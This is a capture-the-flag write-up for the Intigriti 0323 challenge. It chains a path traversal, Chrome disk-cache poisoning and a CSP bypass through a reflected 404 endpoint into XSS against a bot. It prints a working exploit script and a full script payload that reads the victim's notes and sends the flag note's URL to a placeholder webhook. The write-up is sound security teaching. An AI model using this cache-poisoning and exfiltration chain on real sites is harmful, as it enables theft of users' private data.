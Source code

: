 ```yaml
---
layout: mypost
title: Intigriti Challenge 0323 - XSS from the Cache
categories: [web, ctf]
---
```


## Introduction

This is my first CTF writeup. Thanks to 0xGodson_ and BrunoModificato for making this challenge.

## Recon

Looking at the source code of the site, we can find this github repository containing the backend code:

```<!-- We are OpenSource Now! https://github.com/0xGodson/notes-app-2.0 -->```

The site, located at https://challenge-0323.intigriti.io/, is a note-taking application with basic functionality for creating and opening notes. These notes are discoverable from the `/notes` endpoint only with the session from which they were made. The flag is submitted to a note by a bot when you visit the `/visit` endpoint. 

## XSS

From the fact that the flag is only available from the bot, we deduce that we have to execute some XSS on the bot. So, we look for XSS sinks in the website:

1.The frontend code for `/note/:id` contains
```js
window.noteContent.innerHTML = DOMPurify.sanitize(data, {FORBID_TAGS: ['style']}); // no CSS Injection
```
2.The backend code for `/debug` contains
```js
// DEBUG Endpoints
// TODO: Remove this before moving to prod
app.get("/debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/:id", (req, res) => {
    let mode = req.headers["mode"];
    if (mode === "read") {
        res.send(getPostByID(req.params.id).note);
    } else {
        return res.status(404).send("404");
    }
});
```
But in both endpoints there are issues with injecting an XSS. The `/note/:id` endpoint sanitizes the note data with the latest version of DOMPurify, so there will be no way to place an XSS there without a 0-day. Meanwhile, the `/debug` endpoint requires the `mode: read` header to get the note data reflected in the response.

Is there anywhere in the code that naturally uses a `mode: read` header? In fact, the frontend code for `/note/:id` gets the note data with:
```js
id = params.get("id").trim().replace(/\s\r/,'');
fetch(`/note/${id}`, {
    method: 'GET',
    headers: {
        'mode': 'read'
    },
})
.then(response => {
    return response.text()
})
.then(data => {
    if (data) {
        window.noteContent.innerHTML = DOMPurify.sanitize(data, {FORBID_TAGS: ['style']}); // no CSS Injection
    } else {
        document.getElementsByClassName("msg-info")[0].innerHTML="404 😭"
        window.noteContent.innerHTML = "404 😭" 
    }
})
```
The value for the `id` variable comes from a url parameter that we can control, so we could use a path traversal attack like `../debug` to make it request note data from the debug endpoint instead.

However, even if we do, DOMPurify's sanitization is applied to the response before being set to the DOM. This is problematic, as it seems to be the only place that XSS could conceivably occur given the header requirement on `/debug`.

## Controlling the Cache

Currently our problem is making the bot access `/debug` outside of `/note/:id` with the required `mode: read` header. In other words, we want the response to our request to `/debug` from `/note/:id` to be presented as is at the `/debug` endpoint, without sanitization. This idea of preserving a response prompts us to think about taking advantage of browser page caching.

In fact, this challenge shares a lot of similarities with a [recent CTF challenge](https://blog.arkark.dev/2022/11/18/seccon-en/#web-spanote). The solution describes some useful cache behaviour: 
- Chrome has a bfcache (backwards-forwards cache) and a disk cache.
- Both caches are used when accessing pages with backwards/forwards navigation.
- If the bfcache and disk cache are available, the bfcache will take priority for access if a resource is cached in both.
- The disk cache caches fetched resources. 
- The bfcache is disabled on windows opened with `window.open`.
- We can clear cached versions of a particular page by receiving an error status code (like 404) from requesting that page.

First, we direct the bot to execute `window.open` on the `/debug` page. It will receive a 404, clearing any cached versions for the page and allowing us to backwards navigate to the page later. Then, we make the bot visit `/note/:id` and make the fetch request to `/debug` with  `mode: read`. As per the cache behaviour described above, the response from `/debug` will be cached to the disk cache. To view the cached response, we make the bot backwards navigate to `/debug`. Because the window was opened with `window.open`, the disk cache will take priority over the disabled bfcache and our intentionally cached response will be viewed. 

This explanation is more intuitive when looking at the solution script to execute the exploit:
```js
const debugEndpoint = "/debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/"
// open the debug note to get a 404, clearing previous cache
const evilWindow = window.open(`${victimHost}/debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/${noteId}`);
await delay(1000);

// go to /note/:id w/ path traversal id parameter and get debug note cached
evilWindow.location = `${victimHost}/note/${noteId}?id=../debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/${noteId}`;
await delay(1000);

// back.html runs history.go(-2) to backwards navigate 2 pages, accessing the cached debug note
evilWindow.location = `${location.origin}/back.html`;  
// the client is rendering the note at /debug as html!
await delay(1000);
```

## Bypassing the CSP

But now, we must consider what we want to put in the note retrieved by `/debug`. If we just put `<script>...</script>`, we'll find that we run into an obstacle that we've ignored up until now: the Content Security Policy.

```js
app.use((req, res, next) => {
    res.setHeader(
        "Content-Security-Policy",
        "default-src 'self'; style-src fonts.gstatic.com fonts.googleapis.com 'self' 'unsafe-inline'; font-src fonts.gstatic.com 'self'; script-src 'self'; base-uri 'self' frame-src 'self'; frame-ancestors 'self'; object-src 'none';"
    );
    next();
});
```
The first reaction to encountering a CSP should be to consult google's [CSP evaluator](https://csp-evaluator.withgoogle.com/). The evaluator points out that the `self` value for the `script-src` parameter could be problematic if the site hosts user-controlled scripts. We will try to search for such behaviour.

Looking for endpoints on the server that reflect user input, we discover that the wildcard `/*` endpoint reflects user input:
```js
app.get("*", (req, res) => {
    res.setHeader("content-type", "text/plain"); // no xss)
    res.status = 404;
    try {
        return res.send("404 - " + encodeURI(req.path));
    } catch {
        return res.send("404");
    }
});
```
For example, if we access `/abcd`, we'll get the response `404 - /abcd`. But how could we store a script here?

Well, what if we started our payload with `0/;`? Then the response would be `404 - /0/;`, which is a valid statement in javascript (an integer minus a regex) that could be continued with additional javascript statements.

However, our input is also going to go through `encodeURI(req.path)`. From the MDN web docs, this tells us that we will only be able to use these characters:
```
A–Z a–z 0–9 - _ . ! ~ * ' ( )

; / ? : @ & = + $ , #
```
A traditional approach here will not work as we want to execute a sequence of requests. If we want to use `fetch`, we will need to use the curly brackets `{}` or arrow brackets `>` at some point to declare a function (either an async function to use `await fetch()` within, or callback functions for `.then()` chaining).

However, if we instead use the synchronous `XMLHttpRequest` to issue the request, we do not need to declare any functions. Through this observation, we arrive at this payload to exfiltrate the url of the flag note:
```js
/0/;const/**/r=new/**/XMLHttpRequest();r.open('GET','/notes',false);r.send(null);const/**/data=r.responseText;const/**/f=new/**/XMLHttpRequest();f.open('GET','/visit'+String.fromCharCode(0x3F)+'url=<webhook_url>/'+(new/**/DOMParser).parseFromString(data,'text/html').getElementsByTagName('a').item(0).href,false);f.send(null);
```
Our final payload will thus be:
```html
<script src="/0/;const/**/r=new/**/XMLHttpRequest();r.open('GET','/notes',false);r.send(null);const/**/data=r.responseText;const/**/f=new/**/XMLHttpRequest();f.open('GET','/visit'+String.fromCharCode(0x3F)+'url=<webhook_url>'+(new/**/DOMParser).parseFromString(data,'text/html').getElementsByTagName('a').item(0).href,false);f.send(null);"></script>
```

## Conclusion
Now we just need to:
1. Submit this payload as a note.
2. Direct the bot to our attacker site. 
3. From the attacker site, poison the bot's cache and make it render our payload as HTML, exfiltrating the URL of the note with the flag.
4. Check our webhook for the URL of the note with the flag.

Executing this process, we obtain the flag.

The flag is `INTIGRITI{b4ckw4rD_f0rw4rd_c4ch3_x55_3h?}`.

Thanks again to the authors 0xGodson and BrunoModificato for the interesting challenge.